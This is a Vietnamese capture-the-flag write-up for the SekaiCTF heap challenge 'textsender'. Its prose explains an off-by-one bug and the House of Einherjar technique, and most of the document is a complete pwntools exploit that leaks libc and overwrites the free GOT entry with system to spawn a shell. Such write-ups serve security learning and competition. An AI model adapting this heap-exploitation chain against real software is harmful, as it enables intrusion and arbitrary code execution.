 # textsender

https://github.com/wan-hyhty/Techniques#house-of-enherjar

## Bugs

- Ta có bug off-by-one của hàm scanf khiến mình liên tưởng kĩ thuật poison null byte, tuy nhiên các chunk được malloc cố định là 0x20, 0x80 0x200 nên có vẻ không được
- Cuối cùng mình được hint là kĩ thuật House of Enherjar. Kĩ thuật này sử dụng off-by-one để tắt bit inuse và tiến hành fake chunk -> overlap chunk

## Khai thác

```python
def add(idx, payload):
    sla(b"> ", b"2")
    sla(b": ", idx)
    sla(b": ", payload)


def send():
    sla(b"> ", b"5")


def edit(idx):
    sla(b"> ", b"3")
    sla(b": ", idx)

def setname(payload):
    sla(b"> ", b"1")
    sla(b": ", payload)

def fill_bin():
    add("wan", b'bbbb')
    add("wan", b'bbbb')
    add("wan", b'bbbb')
    add("wan", b'/bin/sh')
    add("2", b'bbbb')
    add("2", b'bbbb')
```

### Setup chunk

- Trước hết, ta cần free chunk được merge trước khi free chunk fake, tuy nhiên chunk merge có địa chỉ > chunk fake. Do vậy ta cần làm sao chunk merge được malloc trước chunk fake, khi free chunk merge sẽ được free trước.
- Để được như vậy, ta cần một số các bước xếp chunk.
- Ta sẽ tận dụng việc getline trong hàm edit tạo một chunk 0x80 và free nó.
- Ta chỉ cần chú ý chunk 0x80, dưới đây chỉ là các chunk 0x80

```python
fill_bin()
setname(b'a')
send()

fill_bin()
add("wan",b"b")
edit("6"*0x75)
send()

fill_bin()
add("wan",b"b")
add("wan",b"b")
edit("6"*0x75)
send()
fill_bin()
add("wan",b"b")
add("wan",b"b")
add("wan",b"b")
add("wan",b"b")
edit("6"*0x75)
send()
```

- Khi này trong tcache và fastbin như sau
  ![Alt text](/senkai//textsender/bin/image-3.png)
- Khi này chunk 9 sẽ là chunk ow bit inuse chunk 0x200 ở dưới
  ![Alt text](/senkai//textsender/bin/image-4.png)
- và chunk 6 sẽ là fake chunk
  > Ở đây có lưu ý là cả 2 chunk merge và fake không được ở tcache

```python
presize = 0x870
fill_bin()
add("1",b"b")
add(b"a" * 0x70 + p64(presize),b"b")
add("3",b"b")
add(p64(0) + p64(presize) + p64(exe.sym.sender-0x18) + p64(exe.sym.sender - 0x10),b"b")
send()
```

- Khi này ta đã overlap chunk
  ![Alt text](/senkai//textsender/bin/image-5.png)

### Leak libc

- Ta có thể điều khiển 2 con trỏ của chunk 0x20 để leak libc

```python
fill_bin()
add("wan",b"b")
add("\0",b"b")
add("\0",b"b")
add(b'9',b"\0"*12*8 + p64(0) + p64(0x21) + p64(0x404028) + p64(0x404028))
sla(b'> ', b'4')
p.recvlines(7)
p.recvuntil(b'6) ')
libc.address = u64(p.recvuntil(b':', drop=True) + b'\0\0') - libc.sym.puts
info(hex(libc.address))
```

### Ow free

```python
edit(b'9')
payload = b"\0"*12*8 + p64(0) + p64(0x21) + p64(0x404028) + p64(exe.got.free)
sla(b": ", payload)
edit(p64(libc.address + 0x77ec0))
sla(b': ', p64(libc.sym.system))
send()
```

### Kết quả

![Alt text](/senkai//textsender/bin/image-6.png)

```python
#!/usr/bin/python3

from pwn import *

exe = ELF("textsender_patched", checksec=False)
libc = ELF("./libc.so.6")
context.binary = exe


def GDB():
    if not args.REMOTE:
        gdb.attach(
            p,
            gdbscript="""

                # b* 0x00000000004016b5
                c
                """,
        )
        input()


info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
    p = remote("chals.sekai.team", 4000)
else:
    p = process(exe.path)

GDB()


def add(idx, payload):
    sla(b"> ", b"2")
    sla(b": ", idx)
    sla(b": ", payload)


def send():
    sla(b"> ", b"5")


def edit(idx):
    sla(b"> ", b"3")
    sla(b": ", idx)

def setname(payload):
    sla(b"> ", b"1")
    sla(b": ", payload)

def fill_bin():
    add("wan", b'bbbb')
    add("wan", b'bbbb')
    add("wan", b'bbbb')
    add("wan", b'/bin/sh')
    add("2", b'bbbb')
    add("2", b'bbbb')
fill_bin()
setname(b'a')
send()

fill_bin()
add("wan",b"b")
edit("6"*0x75)
send()

fill_bin()
add("wan",b"b")
add("wan",b"b")
edit("6"*0x75)
send()
fill_bin()
add("wan",b"b")
add("wan",b"b")
add("wan",b"b")
add("wan",b"b")
edit("6"*0x75)
send()

presize = 0x870
fill_bin()
add("1",b"b")
add(b"a" * 0x70 + p64(presize),b"b")
add("3",b"b")
add(p64(0) + p64(presize) + p64(exe.sym.sender-0x18) + p64(exe.sym.sender - 0x10),b"b")
send()
fill_bin()
add("wan",b"b")
add("\0",b"b")
add("\0",b"b")
add(b'9',b"\0"*12*8 + p64(0) + p64(0x21) + p64(0x404028) + p64(0x404028))
sla(b'> ', b'4')
p.recvlines(7)
p.recvuntil(b'6) ')
libc.address = u64(p.recvuntil(b':', drop=True) + b'\0\0') - libc.sym.puts
info(hex(libc.address))
edit(b'9')
payload = b"\0"*12*8 + p64(0) + p64(0x21) + p64(0x404028) + p64(exe.got.free)
sla(b": ", payload)
edit(p64(libc.address + 0x77ec0))
sla(b': ', p64(libc.sym.system))
send()
p.interactive()

```
